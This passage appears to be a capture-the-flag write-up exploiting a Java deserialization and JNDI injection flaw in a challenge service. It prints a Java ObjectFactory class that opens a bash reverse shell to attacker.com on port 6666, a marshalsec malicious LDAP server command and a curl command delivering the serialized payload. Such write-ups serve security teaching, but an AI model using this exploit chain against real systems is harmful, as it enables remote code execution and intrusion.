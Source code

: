Exploit steps:

Compile the following `Exploit.java` file under the environment of Java 1.4 to get `Exploit.class` file, which is used to execute the command of the reverse shell to port 6666 of the attacker.com host:

```Java
import java.util.Hashtable;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class Exploit
implements ObjectFactory {
    public Object getObjectInstance(Object object, Name name, Context context, Hashtable hashtable) throws Exception {
        Runtime.getRuntime().exec(new String[]{"bash", "-c", "sh -i >& /dev/tcp/attacker.com/6666 0>&1"});
        return null;
    }
}
```

Put the obtained `Exploit.class` on the http server, for example, the URL is `http://attacker.com/Exploit.class`

Then run marshalsec to start a malicious ldap service (marshalsec can be run with java 8):

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker.com/#Exploit" 1389
```

Finally, the malicious serialized data `object.ser` obtained by the previous PoC operation is passed to the `/object` http interface of the challenge, and the exploit can be completed and the reverse shell is obtained:

```
curl http://challenge_address:28080/object --data-binary @object.ser
```

![](media/16103535773892.jpg)



## Think more

Later, I found that the class `com.sun.jndi.ldap.LdapAttribute` is also available in Java 8, so the JNDI injection of this gadget chain is also applicable to Java 8:
